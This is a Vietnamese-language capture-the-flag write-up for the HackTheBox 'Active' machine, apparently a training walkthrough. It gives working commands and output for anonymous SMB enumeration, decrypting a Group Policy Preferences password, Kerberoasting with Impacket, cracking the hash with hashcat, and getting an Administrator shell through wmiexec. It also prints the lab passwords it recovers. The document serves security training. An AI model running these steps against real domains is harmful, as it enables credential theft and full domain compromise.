


# Active

## Synopsis

Active là một machine Windows có độ khó từ dễ đến trung bình, có hai kỹ thuật rất phổ biến để giành được quyền trong môi trường Active Directory.

### Skills Required

- Kiến thức cơ bản về xác thực Active Directory và shared folders

### Skills Learned

- Kỹ thuật enum SMB

- Enum và exploit Group Policy Preferences

- Xác định và exploit tài khoản Kerberoastable

## Enumeration

### Nmap

Bắt đầu bằng cách chạy scan Nmap trên target.

Nmap cho thấy cài đặt Active Directory với tên miền là `active.htb`. Microsoft DNS 6.1 đang chạy, cho phép Nmap lấy fingerprint domain controller là Windows Server 2008 R2 SP1. Cổng 445 đang mở và do đó, đáng để chạy thêm các script nmap SMB.

Thêm domain đã phát hiện vào file hosts.

```
echo "10.10.10.100  active.htb" | sudo tee -a /etc/hosts
```

### SMB

`smbclient` có thể được sử dụng để liệt kê bất kỳ file share nào có sẵn.

```
smbclient -L //10.10.10.100

Password for [WORKGROUP\htb-c4rm3l0]:
Anonymous login successful
 
  Sharename      Type        Comment     
  ---------      ----        -------
  ADMIN$         Disk        Remote Admin  
  C$             Disk        Default share
  IPC$           IPC         Remote IPC
  NETLOGON       Disk        Logon server share
  Replication    Disk
  SYSVOL         Disk        Logon server share
  Users          Disk      
  Default share
SMB1 disabled -- no workgroup available
```

Share duy nhất có thể truy cập bằng thông tin xác thực ẩn danh là share “Replication”, có vẻ như là bản sao của `SYSVOL`. Điều này có thể sẽ thú vị từ góc độ leo thang đặc quyền vì Group Policies (và Group Policy Preferences) được lưu trữ trong share SYSVOL, có thể đọc được trên toàn thế giới đối với người dùng đã xác thực. Có thể tìm thêm tài nguyên cho loại khai thác này tại https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/.

Kết nối đến phần share và tải xuống nội dung của nó theo cách đệ quy, đặc biệt chú ý đến tệp `Groups.xml`, thường chứa tổ hợp tên người dùng/mật khẩu có thể hữu ích cho mục đích khai thác.

```
smbclient //10.10.10.100/Replication

Password for [WORKGROUP\htb-c4rm3l0]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
<...SNIP...>
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (12.4 KiloBytes/sec) (average 15.5 
KiloBytes/sec)
 <...SNIP...>
```

File có nội dung như sau:

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" 
description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Có được tên người dùng `SVC_TGS` cũng như mật khẩu được mã hóa.

## Foothold

### Group Policy Preferences

Group Policy Preferences (GPP) được giới thiệu trong Windows Server 2008 và cùng với nhiều tính năng khác, nó cho phép administrators sửa đổi user và group trên toàn network của họ.

Một ví dụ sử dụng trường hợp này là khi hình ảnh vàng của một công ty có mật khẩu local administrator yếu và các administrator muốn đặt lại mật khẩu đó thành mật khẩu mạnh hơn. Mật khẩu được xác định là mã hóa AES-256 và được lưu trữ trong     `Groups.xml`. Tuy nhiên, vào một thời điểm nào đó trong năm 2012, Microsoft đã công bố khóa AES trên MSDN, nghĩa là mật khẩu được đặt bằng GPP hiện rất dễ bẻ khóa và được coi là quả chín dễ hái.



Trích xuất mật khẩu được mã hóa từ tệp `Groups.xml` và giải mã bằng `gpp-decrypt`.

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Domain account `SVC_TGS` có mật khẩu `GPPstillStandingStrong2k18`.

### Authenticated Enumeration

Với thông tin xác thực hợp lệ cho miền `active.htb`, có thể thực hiện thêm việc enum. Các share `SYSVOL` và `Users` hiện có thể truy cập được.

```
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100

[+] IP: 10.10.10.100:445  Name: 10.10.10.100     

  Disk                                            Permissions Comment
  ----                                            ----------- -------
  ADMIN$                                          NO ACCESS   Remote Admin
  C$                                              NO ACCESS   Defaule share
  IPC$                                            NO ACCESS   Remote IPC
  NETLOGON                                        READ ONLY   Logon server share
  Replication                                     READ ONLY   
  SYSVOL                                          READ ONLY   Logon server share
  Users                                           READ ONLY
```

Flag `user` có thể được lấy bằng cách kết nối với share `User` và điều hướng đến Desktop của `SVC_TGS`

```
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
 
Try "help" to get a list of possible commands.
smb: \> ls
.                                    DR       0  Sat Jul 21 15:39:20 2018
..                                   DR       0  Sat Jul 21 15:39:20 2018
Administrator                         D       0  Mon Jul 16 11:14:21 2018
All Users                         DHSrn       0  Tue Jul 14 06:06:24 2009
Default                             DHR       0  Tue Jul 14 07:38:21 2009
Default User                      DHSrn       0  Tue Jul 14 06:06:44 2009
desktop.ini                         AHS     174  Tue Jul 14 05:57:55 2009
Public                               DR       0  Tue Jul 14 05:57:55 2009
SVC_TNG                               D       0  Sat Jul 21 16:16:32 2018
   5217023 blocks of size 4096. 284105 blocks available
smb: \> cd STC_TGS_Desktop
```

## Privilege Escalation

`ldapsearch` hiện có thể được sử dụng để truy vấn Domain Controller cho các thuộc tính Active Directory `UserAccountControl` của các tài khoản đang hoạt động và các cấu hình cụ thể khác có thể được áp dụng cho chúng. Một số thuộc tính `UserAccountControl` cũng có liên quan đến bảo mật. Trang Microsoft bên dưới liệt kê các giá trị `serAccountControl` có thể có.

https://support.microsoft.com/en-gb/help/305144/how-to-use-the-useraccountcontrol-flags-to-manipulate-user-account-pro

Giá trị `2` tương ứng với trạng thái tài khoản bị vô hiệu hóa, do đó truy vấn bên dưới sẽ trả về người dùng đang hoạt động (theo SAMAccountName/tên người dùng) trong miền active.htb.

```
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName

sAMAccountName: Administrator
sAMAccountName: SVC_TGS
```

```
-s sub: Tùy chọn -s chỉ định phạm vi tìm kiếm. sub nghĩa là tìm kiếm cây con, bao gồm base DN và tất cả các mục con của nó. Đây là phạm vi tìm kiếm toàn diện nhất, vì nó duyệt qua toàn bộ cây thư mục bên dưới base DN.

- (&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))) là bộ lọc tìm kiếm LDAP để tìm tất cả các đối tượng người dùng không bị vô hiệu hóa. Sau đây là phân tích:
    - objectCategory=person: Tìm kiếm các đối tượng trong danh mục "person".
    - objectClass=user: Thu hẹp phạm vi đối tượng có lớp là "user".
    - !(useraccountcontrol:1.2.840.113556.1.4.803:=2): Loại trừ các tài khoản bị vô hiệu hóa. Thuộc tính userAccountControl là một cờ bit; phần này của bộ lọc loại trừ các tài khoản có bit thứ hai được đặt (chỉ ra một tài khoản bị vô hiệu hóa).
```

Thấy rằng ngoài tài khoản bị xâm phạm, tài khoản `Administrator` vẫn hoạt động.

`GetADUsers.py` của Impacket đơn giản hóa quá trình enum tài khoản domain user.

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Password: GPPstillStandingStrong2k18
[*] Querying 10.10.10.100 for information about domain.
Name              Email     PasswordLastSet            LastLogon
----------------  --------  -------------------------   ----------------
Administrator               2018-07-18 20:06:40.351723  2023-11-27 09:57:39.876136
Guest                       <never>                     <never>
krbtgt                      2018-07-18 19:50:36.972031  <never>
SVC_TGS                     2018-07-18 21:14:38.402764  2018-07-21 15:01:30.320277
```

### Kerberoasting

Xác thực Kerberos và Service Principal Names Another kỹ thuật phổ biến để đạt được đặc quyền trong Active Directory Domain là “Kerberoasting”, đây là một kỹ thuật tấn công do Tim Medin tạo ra và được tiết lộ tại DerbyCon 2014.

Kerberoasting liên quan đến việc trích xuất một hàm hash của material được mã hóa từ ticket reply "Ticket Granting Service" của Kerberos (TGS_REP), có thể bị crack offline để lấy lại plaintext password. Điều này có thể thực hiện được vì TGS_REP được mã hóa bằng hàm hash mật khẩu NTLM của tài khoản mà trong đó có phiên bản dịch vụ đang chạy. Hình sau cho thấy quy trình xác thực Kerberos khi tương tác với phiên bản dịch vụ.



Tài khoản dịch vụ được quản lý giảm thiểu rủi ro này, do mật khẩu phức tạp của chúng, nhưng chúng không được sử dụng trong nhiều môi trường. Cần lưu ý rằng việc tắt máy chủ lưu trữ dịch vụ không làm giảm rủi ro, vì cuộc tấn công không liên quan đến giao tiếp với dịch vụ mục tiêu. Do đó, điều quan trọng là phải thường xuyên kiểm tra mục đích và đặc quyền của tất cả các tài khoản được kích hoạt.

Xác thực Kerberos sử dụng Service Principal Names (SPN) để xác định tài khoản được liên kết với một phiên bản dịch vụ cụ thể. `ldapsearch` có thể được sử dụng để xác định các tài khoản được cấu hình bằng SPN.

Sử dụng lại truy vấn trước đó và thêm bộ lọc để bắt SPN, `(serviceprincipalname=*/*)`:

```
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName

dn: CN=Administrator,CN=Users,DC=active,DC=htb
servicePrincipalName: active/CIFS:445
```

Có vẻ như tài khoản `active\Administrator` đã được cấu hình bằng SPN.

`GetUserSPNs.py` của Impacket cho phép request TGS và trích xuất hàm hash để crack offline.

```
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100


Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Password: GPPstillStandingStrong2k18
SPN              Name           MemberOf
---------------  -------------  --------------------------------------------------
active/CIFS:445  Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb 
<...SNIP....>
```

```
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Password: GPPstillStandingStrong2k18
<...SNIP...>
[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$73fd1c3cdfb6f1085f60218dc05d9b90$d8728890eed6dbfd4c7ac4a90d432af56e5ceb9cdb82c3ed943d64bca639c46f67c9e2892eae6b84fadce3215f550ba9aac436212ecdc0cdf93adc5a33547f31907bd79d4ec8826063cd18e07493eb7eb5b1a1efe1f5308308489f2e101432ac40a6969861ff1c93fdec9ae1abb1b237c59bb866dcc7d028297f75e3110436dc5446f3f8d36ec58b780384b0f6c02a6f1b76e283d3ed00dcc4a69061d5e02119cb79671e17ffce51cac8967606d2b014077c52064ccaf42ee7d2465818d56f12bc2daa2910e92740ebeaf78cd574a3919fabb04ae86f0c93b82e05e41d58b1d83d85407a9577823b30125d270e4dcec1dd0c4faa4eb87fd5110c281b9cfb1f5844507421984935eb6310988319aaeb0b0d4e91849f4e6a15c9f024558b0e982d056d8ce3fcb5eea8a5eca7db51612ae1dfba0770a54e43a79e5af5daa4366b8c752f6f8b060de90d4c5e21d473b503f4503a26cd3834400fd19141821244862a1d65e139ad0640aa26478638c87dc715120cb8e2bb7e4d51ac21802d3b26c1d6207022c071fe9361c0c9b96767cd9bb0ce3c3c3fe48fa0157f4fdd7a56fda7af540ed565eefd58c7ca7f8e5cae13333695897dd3acc01eee8d7870f55955e3fc7a5946a61424e6dd5c243abfe11716dbc2e2ca435949c5f49feb9582b7a9d2eae6f7d9aa720b786468ce6ec7ef5b879c764e59574de70345aa79898eb26d09bb6dd3e2e8b87e96ee60cb9dbde6365a201ae307698c162ea7241f22b964960b1916b9fcb5e1981f5fd02ed0590a9862eb3a6b5e9a14cb99c3bfb72abfd4a7faef5766ac9f05faff37860acb0c00cfd90d2cda321a12f3dd08ffd1a36dbd8452d5ee92f0e90f9d78c6b8228ed333984d717cc9926a8751d7ed0c14fde671f8413c361e72a48472acffa25fc931b4db96224f14427251662a4b934190bb215e8c0727958432cb751dd8bf81c2dcdeeb355f45b0faf80388abac80c9cabfa7ce6a7ddf36c7fa2d02c5b168d00ce729e555f1cba3ad455d5dfb7c8360d5c1b021a3549065eceda11e0f109c9fed1720e2a2e3a111715698c60480aae043501b35f527fe353a4c9a03ff46c6e438e411bbcfa3ea8ee3e8fbee38d464a43304a9a0607076748a19ff94b6ad704674f6d8a0f29a9575a4b121b1143f8376ffc98dbce58589ec356deb592808052d530baa49c3ae5af846a9b4047ce682f7473703c5dd1d8cf585eab3082e00cfaf23289dbffa1925ba26e41c3ba7e682cb
```

### Cracking of Kerberos TGS Hash

Sử dụng `hashcat` với wordlist `rockyou.txt` để bẻ khóa hàm hash và lấy được mật khẩu `active\administrator`: `Ticketmaster1968`.

```
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable

hashcat (v6.1.1) starting...

<...SNIP...>
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

$krb5tgs$23$*Administrator$ACTIVE.HTB$<...SNIP...>:Ticketmaster1968

<...SNIP...>

Started: Mon Nov 27 12:18:48 2023
Stopped: Mon Nov 27 12:19:44 2023
```

### Shell as Primary Domain Admin

Có thể sử dụng `wmiexec.py` của Impacket để lấy shell `active\administrator` và đọc `root.txt`.

```
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
active\administrator
```

Flag cuối cùng có thể được tìm thấy tại `C:\Users\Administrator\Desktop\root.txt`.